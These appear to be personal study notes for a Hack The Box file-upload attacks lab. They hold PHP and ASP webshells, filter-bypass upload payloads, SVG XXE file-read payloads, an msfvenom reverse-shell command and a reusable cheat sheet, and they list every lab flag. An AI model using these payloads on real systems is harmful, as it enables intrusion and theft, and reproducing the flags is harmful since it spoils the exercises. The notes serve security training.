

# File Upload Attacks (HTB Supplementary)

#FileUpload #FilterBypass #BlacklistBypass #WhitelistBypass #ContentTypeBypass #MIMEBypass #GIFMagicBytes #DoubleExtension #SVG #XXE #BurpIntruder #ClientSideBypass #HTBSupplementary

**HTB File Upload Attacks module**, supplements [[Common Web Application Attacks#9.3. File Upload Vulnerabilities|Module 9.3 file uploads]]. The Offsec module covers extension case-swap, legacy extensions, and authorized_keys traversal. This module adds: client-side validation bypass (Burp + browser DevTools), blacklist extension fuzzing via Burp Intruder, whitelist bypass via double/reverse-double extension, Content-Type + MIME (magic byte) type filter bypass, SVG XXE for file reads and PHP source disclosure, and a multi-technique skills assessment chain.

Already in vault (cross-referenced): case-swap extension (`.pHP`), legacy extensions (`.phps`/`.php7`), upload + traversal for authorized_keys. See [[Common Web Application Attacks#9.3.1. Using Executable Files|9.3.1]], [[File Upload Attacks|Command Appendix]].

> 🔁 Cross-refs: [[Common Web Application Attacks#9.3. File Upload Vulnerabilities|9.3]], [[File Upload Attacks|Command Appendix]], [[File Upload Attacks (Decision Tree)|Decision Tree]], [[File Inclusion (HTB Supplementary)#FI.6. LFI + File Uploads|FI.6]] (GIF magic bytes + LFI)

---

## Outstanding Sections

- [x] FUA.1. Absent Validation (direct PHP upload)
- [x] FUA.2. Client-Side Validation Bypass (Burp intercept + browser DevTools)
- [x] FUA.3. Blacklist Filters (Intruder extension fuzzing)
- [x] FUA.4. Whitelist Filters (double extension + reverse double extension)
- [x] FUA.5. Type Filters (Content-Type + GIF8 magic bytes combined)
- [x] FUA.6. Limited File Uploads. SVG XXE (file read + PHP source disclosure)
- [x] FUA.7. Skills Assessment (multi-technique chain)

---

## FUA.1. Absent Validation — Direct PHP Upload

When no upload filter exists at all, upload a PHP file directly and browse to it.

```bash
cat << EOF > RCE.php
<?php system('hostname'); ?>
EOF
```

Upload the file, then navigate to `/uploads/RCE.php`. The PHP interpreter executes the file and returns the output.

For a full webshell (accept arbitrary commands via URL parameter):
```bash
cat << 'EOF' > RCE.php
<?php system($_REQUEST['cmd']); ?>
EOF
```

```bash
# Execute commands via the uploaded webshell
curl -s "http://TARGET:PORT/uploads/RCE.php?cmd=cat+/flag.txt"
```

**`$_REQUEST` vs `$_GET`:** `$_REQUEST` accepts input from GET params, POST body, and cookies. Using it makes the shell usable from a browser URL (GET) and from a POST form, either way. `$_GET` is stricter (URL param only) but fine for most testing.

> 📸 Screenshot: /uploads/RCE.php URL returning hostname/command output

**Q1 Answer:** `fileuploadsabsentverification`
**Upload Exploitation Q1 Answer:** `HTB{g07_my_f1r57_w3b_5h3ll}`

#### Tags: #FileUpload #AbsentValidation #PHPWebshell #RCE

---

## FUA.2. Client-Side Validation Bypass

When validation is JavaScript-only (runs in the browser, not on the server), bypass it in one of two ways.

### Method 1: Burp Suite intercept

1. Upload a legitimate image file to generate a valid upload request
2. Intercept the request in Burp Suite before it reaches the server
3. In the intercepted request:
   - Change `filename="image.jpg"` → `filename="WebShell.php"`
   - Replace the image binary content with the PHP webshell
4. Forward the modified request

```
Content-Disposition: form-data; name="uploadFile"; filename="WebShell.php"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
```

The server receives a request that looks like a normal upload but with PHP content. No client-side JS ran to block it.

> 📸 Screenshot: Burp intercept showing modified filename and PHP webshell content replacing image data

Navigate to `/profile_images/WebShell.php?cmd=cat+/flag.txt` to execute commands.

### Method 2: Browser DevTools — disable client-side validation

1. Press `Ctrl+Shift+C` → click the profile image area → inspect the upload form elements in the DevTools
2. Find the `<form>` tag with the upload form ID (e.g. `id="uploadForm"`):
   - Change `onSubmit="return checkFile()"` → `onSubmit="upload()"` (removes the validation call)
3. Find the `<input>` tag for the file field (e.g. `id="uploadFile"`):
   - Remove `accept=".jpg,.jpeg,.png"` from the tag (removes the browser-level MIME filter)
4. Now upload a `.php` file directly, the browser no longer restricts it

> 🔍 Worth remembering generally: client-side validation is a UI convenience, never a security control. Any validation that a user can bypass by modifying their own browser/proxy is not server-side validation. The tell is that the whole validation function runs in JavaScript and never checks with the server before accepting the file. Always test both the "intercept and modify" method and the "disable via DevTools" method, the DevTools method is faster when the JS isn't obfuscated.

**Q1 Answer:** `HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}`

#### Tags: #ClientSideBypass #BurpIntercept #DevToolsBypass #FileUpload

---

## FUA.3. Blacklist Filters — Extension Fuzzing via Burp Intruder

The app blocks `.php` by comparing the uploaded extension against a blacklist. Alternative PHP-executable extensions (`phar`, `phtm`, `phps`, etc.) may not be on the list.

### Burp Intruder approach

1. Upload any image to capture the upload request in Burp → send to Intruder (`Ctrl+I`)
2. Clear all auto-detected payload positions
3. Set `filename="RCE§.php§"`, put markers ONLY around the extension dot: `§.php§` becomes the fuzz position
4. Replace the image content with a PHP webshell:
   ```
   <?php system('cat /flag.txt'); ?>
   ```
5. Payload Options → paste the PHP extensions list (see below)
6. **Disable URL encoding** in Intruder Payload Options, critical or extensions like `.phar` get garbled
7. Start attack → sort results by Length, responses with a different length (larger, containing a success message like "File successfully uploaded") are the winners

**PHP extensions wordlist** (grab from SecLists or copy from the HTB module's linked list):
```
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Alternatively: `/usr/share/SecLists/Discovery/Web-Content/web-extensions.txt` contains a superset.

> 📸 Screenshot: Burp Intruder attack results sorted by Length, .phar extension showing "File successfully uploaded" with different length

After finding the working extension:
```bash
curl -s "http://TARGET:PORT/profile_images/WebShell.phar?cmd=cat+/flag.txt"
```

> 🔍 Worth remembering generally: `.phar` is the most consistently-missed alternative extension because it's a legitimate PHP Archive format that still gets executed by the PHP interpreter. Blacklists that block `.php`, `.php3`-`.php7`, and `.phtml` often miss `.phar`. When fuzzing, `.phar` is the first fallback to try manually if you don't want to run a full Intruder attack.

**Q1 Answer:** `HTB{1_c4n_n3v3r_b3_bl4ckl1573d}`

#### Tags: #BlacklistBypass #BurpIntruder #ExtensionFuzzing #Phar

---

## FUA.4. Whitelist Filters — Double Extension and Reverse Double Extension

A whitelist filter only allows image extensions (`.jpg`, `.jpeg`, `.png`, `.gif`). Two bypass techniques:

### Double extension (forward): `shell.php.jpg`

The file ends with `.jpg` so the whitelist accepts it. If the server is misconfigured and PHP processes files containing `.php` anywhere in the name, the PHP code executes.

**Requirement:** misconfigured Apache with `AddHandler application/x-httpd-php .php` applying to any file whose name contains `.php`, not just those ending with it. This is the "forward" double extension, the dangerous extension is first.

### Reverse double extension: `shell.phar.jpg`

When the blacklist blocks all `.php` variants but misses `.phar`, and the whitelist requires the final extension to be an image type:
- `shell.php.jpg` — whitelist passes (ends in `.jpg`), blacklist may still block (contains `.php`)
- `shell.phar.jpg` — whitelist passes (ends in `.jpg`), blacklist misses `.phar`

**Combined blacklist+whitelist bypass workflow:**

1. Test `shell.php.jpg`, get "extension not allowed" → confirms blacklist is checking for `.php` anywhere in the filename
2. Use Intruder to fuzz the first extension: set `filename="shell§.php§.jpg"` with markers around `.php`
3. Load the PHP extensions list, disable URL encoding, start attack
4. Hits that say "File successfully uploaded" instead of "Extension not allowed" are extensions the blacklist misses
5. `.phar.jpg` typically succeeds

Navigate to `/profile_images/readFlag.phar.jpg`. Apache executes the PHP inside it because the server maps `.phar` to the PHP interpreter.

> 🔧 Technique: the reverse double extension only works when Apache (or another server) is configured to execute files based on any extension in the filename, not just the last one. This is a server misconfiguration. It's less reliable than the forward double extension but more likely to pass a strict whitelist. When in doubt, try both and check the server response.

**Q1 Answer:** `HTB{1_wh173l157_my53lf}`

#### Tags: #WhitelistBypass #DoubleExtension #ReverseDoubleExtension #BlacklistBypass

---

## FUA.5. Type Filters — Content-Type and MIME Bypass

When the server checks Content-Type (from the request header) and MIME type (from the file's magic bytes), both must look like an image.

### Five-filter scenario (layered bypass)

Filters active: client-side JS, blacklist, whitelist, Content-Type header check, MIME type (magic bytes) check.

**Step 1: bypass client-side**, use Burp Repeater instead of the normal upload form.

**Step 2: bypass Content-Type**, change `Content-Type: image/jpeg` to `Content-Type: image/gif` in Burp. Most Content-Type checks only compare the header string, not the actual file content.

**Step 3: bypass MIME type (magic bytes)**, prepend `GIF8` to the file content. The server calls `mime_content_type()` which reads the file's first few bytes (magic bytes). `GIF8` is the GIF87a/GIF89a magic signature, the function returns `image/gif`.

**Step 4: find a working extension** (bypass blacklist), fuzz with Intruder. Extensions that return "Only images are allowed" rather than "Extension not allowed" have passed the blacklist but failed the whitelist, use those as candidates for the double extension trick.

**Step 5: bypass whitelist**, use `cat.jpg.phar` (reverse double extension, `.phar` passes blacklist but `.jpg` satisfies whitelist ending).

**Full Burp Repeater payload:**
```
POST /upload.php HTTP/1.1
...
Content-Type: image/gif

GIF8
<?php system('cat /flag.txt'); ?>
```

Filename: `cat.jpg.phar`

After successful upload: navigate to `/profile_images/cat.jpg.phar`.

> 📸 Screenshot: Burp Repeater showing `GIF8` + PHP webshell in body, `cat.jpg.phar` as filename, Content-Type: image/gif

> 🔍 Worth remembering generally: `GIF8` as a magic byte prefix is the standard for bypassing MIME checks via `mime_content_type()` because GIF magic bytes are short (4 bytes vs 8 for PNG, 3+ for JPEG), and the PHP function checks only the first few bytes. The resulting file is a valid GIF header followed by PHP, which PHP will happily execute if the server maps the extension to the PHP interpreter. The output will have `GIF8` prepended before any command result, same as the LFI + GIF upload technique.

**Q1 Answer:** `HTB{m461c4l_c0n73n7_3xpl0174710n}`

#### Tags: #ContentTypeBypass #MIMEBypass #GIFMagicBytes #TypeFilter #BurpRepeater

---

## FUA.6. Limited File Uploads — SVG XXE

When the app only accepts SVG images, inject XML External Entity (XXE) payloads inside the SVG to read arbitrary files from the server. SVG is XML and web browsers/servers parse the XML, which can resolve external entities if the parser is vulnerable.

### Technique A: Direct file read via XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

1. Save this as `shell.svg`
2. Upload it
3. **View page source** (not the rendered page, the SVG may render as a blank image) → look for the file contents inside the `<svg>` element

> 📸 Screenshot: page source showing flag value inside the <svg> element at line 19

### Technique B: PHP source code disclosure via xxe + php://filter

The XXE `SYSTEM` entity can use PHP wrappers, including the same `php://filter/convert.base64-encode/resource=` trick as LFI:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

1. Save as `shell.svg`, upload
2. View page source → copy the base64 blob from inside `<svg>`
3. Decode: `echo 'BASE64BLOB' | base64 -d`
4. Source code reveals the upload directory path (in `$target_dir`), filename format, validation logic

> 📸 Screenshot: page source with base64-encoded upload.php source inside <svg> element

```bash
# Quick decode from terminal
echo 'PD9waHAK...' | base64 -d
```

> 🔍 Worth remembering generally: SVG XXE via `php://filter` is exactly the same data source as LFI's `php://filter`, it reads and base64-encodes PHP files. The difference is the delivery: LFI via a `page=` parameter, SVG XXE via a file upload. Both bypass the PHP interpreter and return raw source. Both work without `allow_url_include`. If you have an SVG upload and need PHP source code, SVG XXE is your php://filter.

> 🔧 Technique: if the SVG upload says "Only images are allowed" when you try `.svg`, save the file as `.jpeg` first, then intercept the upload in Burp and change `filename="shell.svg"` and `Content-Type: image/svg+xml` in the intercepted request. The frontend rejects `.svg` but the server logic actually processes SVG, the mismatch is common.

**Q1 Answer (SVG XXE file read):** `HTB{my_1m4635_4r3_l37h4l}`
**Q2 Answer (upload directory from source):** `./images/`

#### Tags: #SVG #XXE #FileRead #SourceCodeDisclosure #PHPFilter #LimitedFileUpload

---

## FUA.7. Skills Assessment — Multi-Technique Chain

**Target:** contact form with SVG image upload. Images display immediately after upload (no submit needed). Upload path not disclosed in the UI.

### Step 1: Extension fuzzing — find what passes the blacklist

Upload any `.jpg` via the green icon → intercept in Burp → send to Intruder. Set `filename="shell§.jpg§"` with markers around `.jpg`. Load PHP extensions list, disable URL encoding, start attack.

Results showing "Only images are allowed" (not "Extension not allowed") passed the blacklist but failed the whitelist. Working extensions: `.pht`, `.phtm`, `.phar`, `.pgif`.

### Step 2: Content-Type fuzzing — find what passes the type filter

Back in Repeater, set filename to `shell.phar.jpg` (reverse double extension). Fuzz the Content-Type header: load `web-all-content-types.txt`, filter to `image/` types only:

```bash
wget https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' | xclip -se c   # copy to clipboard
```

Result: `image/jpg`, `image/jpeg`, `image/png`, `image/svg+xml` pass. SVG is allowed.

### Step 3: Read upload.php source via SVG XXE

Since SVG is an accepted Content-Type, create an SVG XXE payload to read the upload handler's source:

```bash
cat << 'EOF' > shell.svg
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg>
EOF
mv shell.svg shell.jpeg   # frontend blocks .svg directly
```

Upload `shell.jpeg`, intercept in Burp → change `filename="shell.svg"` and `Content-Type: image/svg+xml` → forward.

Decode the base64 response to read `upload.php` source:
```bash
echo 'BASE64BLOB' | base64 -d
```

Key findings from source:
```php
$target_dir = "./user_feedback_submissions/";
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
// blacklist: /\.ph(p|ps|tml)/  — blocks .php, .phps, .phtml but not .phar
// whitelist: /^.+\.[a-z]{2,3}g$/  — extension must end in 2-3 lowercase letters + 'g' (e.g. .jpg, .jpeg, .png, .svg)
// type test: /image\/[a-z]{2,3}g/ — Content-Type and MIME must match same pattern
```

Upload path: `./user_feedback_submissions/`. Filename format: `YYMMDD_originalfilename`.

### Step 4: Upload PHP webshell as SVG

Build a file containing BOTH the SVG wrapper (to pass MIME check) and PHP webshell code:

```bash
cat << 'EOF' > shell.phar.svg
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg> <?php system($_REQUEST['cmd']); ?>
EOF
mv shell.phar.svg shell.phar.jpeg
```

Upload, intercept, change:
- `filename="shell.phar.svg"` (passes: ends in `.svg` which matches whitelist `[a-z]{2,3}g`; `.phar` not in blacklist)
- `Content-Type: image/svg+xml` (passes type test: matches `/image\/[a-z]{2,3}g/` = `image/svg`)

### Step 5: Execute commands via the uploaded webshell

The file lands at: `http://TARGET:PORT/contact/user_feedback_submissions/YYMMDD_shell.phar.svg`

```bash
# Compute today's date prefix
date +%y%m%d   # e.g. 231130

# List root directory to find flag filename
http://TARGET/contact/user_feedback_submissions/231130_shell.phar.svg?cmd=ls+/

# Read the flag
http://TARGET/contact/user_feedback_submissions/231130_shell.phar.svg?cmd=cat+/flag_HASH.txt
```

> 📸 Screenshot: browser showing ls / output via the SVG webshell, flag filename visible

> 📸 Screenshot: flag content returned by cat command via the webshell URL

**Attack chain (Mermaid):**


**Q1 Answer:** `HTB{m4573r1ng_upl04d_3xpl0174710n}`

#### Tags: #SkillsAssessment #FileUpload #SVG #XXE #BurpIntruder #ContentTypeFuzzing #MultiTechnique

---

## All Q&A Answers

| Section | Q# | Answer |
|---------|----|--------|
| Absent Validation | 1 | `fileuploadsabsentverification` |
| Upload Exploitation | 1 | `HTB{g07_my_f1r57_w3b_5h3ll}` |
| Client-Side Validation | 1 | `HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}` |
| Blacklist Filters | 1 | `HTB{1_c4n_n3v3r_b3_bl4ckl1573d}` |
| Whitelist Filters | 1 | `HTB{1_wh173l157_my53lf}` |
| Type Filters | 1 | `HTB{m461c4l_c0n73n7_3xpl0174710n}` |
| Limited File Uploads | 1 | `HTB{my_1m4635_4r3_l37h4l}` |
| Limited File Uploads | 2 | `./images/` |
| Skills Assessment | 1 | `HTB{m4573r1ng_upl04d_3xpl0174710n}` |

---

## External Resources

- [HackTricks. File Upload](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/file-upload/README.md)
- [PayloadsAllTheThings. Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- PHP extensions list: `SecLists/Discovery/Web-Content/web-extensions.txt`
- Content-Type list: `SecLists/Discovery/Web-Content/web-all-content-types.txt`

---

## Module Summary

Upload filter bypass ladder: no filters → client-side only (Burp intercept OR DevTools form edit) → blacklist (Intruder extension fuzz with PHP extensions list, `.phar` is the most commonly missed) → whitelist (double extension `shell.php.jpg` for misconfigured Apache, reverse double `shell.phar.jpg` for blacklist+whitelist combined) → Content-Type header (change to `image/gif` or `image/svg+xml` in Burp) → MIME type/magic bytes (`GIF8` prefix satisfies `mime_content_type()`, same as LFI GIF trick). SVG-only uploads: XXE with `SYSTEM "/path"` reads arbitrary files; XXE with `SYSTEM "php://filter/convert.base64-encode/resource=file"` reads PHP source. Skills assessment pattern: fuzz extensions → fuzz Content-Type → SVG XXE to read source → learn upload path + filename convention → SVG+PHP polyglot upload → intercept to fix extension + Content-Type → execute via YYMMDD-prefixed path.


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# WEBSHELLS
# ============================================================
# Minimal PHP webshell (parameterised — avoids hardcoded cmd)
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

# PHP file read (no execution — useful when system() is blocked)
echo '<?php echo file_get_contents("/etc/passwd"); ?>' > read.php

# ASP webshell (for IIS targets)
echo '<% eval request("cmd") %>' > shell.asp

# Execute via curl once the shell is uploaded
curl -s "http://$BoxIP/uploads/shell.php?cmd=id"

# msfvenom PHP reverse shell (staged)
msfvenom -p php/reverse_php LHOST=$LocalIP LPORT=$Port -f raw -o www/reverse.php

# ============================================================
# EXTENSION BYPASS LADDER
# ============================================================
# (try each in order — stop at the first one that executes)
# 1. Direct upload (no filter)
# 2. Case manipulation:       shell.pHp   shell.PHP
# 3. Uncommon extensions:     shell.phtml  shell.phar  shell.phps
# 4. Double extension:        shell.jpg.php   (misconfigured Apache AddHandler)
# 5. Reverse double:          shell.php.jpg   (passes whitelist, still parses as PHP on some)
# 6. Character injection before extension: shell.php%20  shell.php%00  shell.php/

# PHP extension list for Burp Intruder fuzzing:
# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

# ============================================================
# CONTENT-TYPE & MAGIC BYTES BYPASS
# ============================================================
# In Burp: change Content-Type header to image/gif or image/jpeg
# Or add GIF magic bytes at the start of the PHP file:
printf 'GIF8\n<?php system($_REQUEST["cmd"]); ?>' > shell.gif.php

# Content-Type wordlist for Burp Intruder fuzzing:
# https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

# ============================================================
# SVG XXE (when only SVG upload is allowed)
# ============================================================
# SVG file that reads /etc/passwd via XXE:
cat > malicious.svg << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
EOF

# SVG file that reads PHP source via php://filter:
cat > source.svg << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../config.php">
]>
<svg>&xxe;</svg>
EOF
# Then base64 -d the value returned in the rendered SVG

# ============================================================
# LIMITED UPLOAD ATTACK SURFACE
# ============================================================
# XSS via upload:   .html .js .svg .gif
# XXE/SSRF:         .xml .svg .pdf .docx
# DoS (zip bomb):   .zip .jpg .png
```
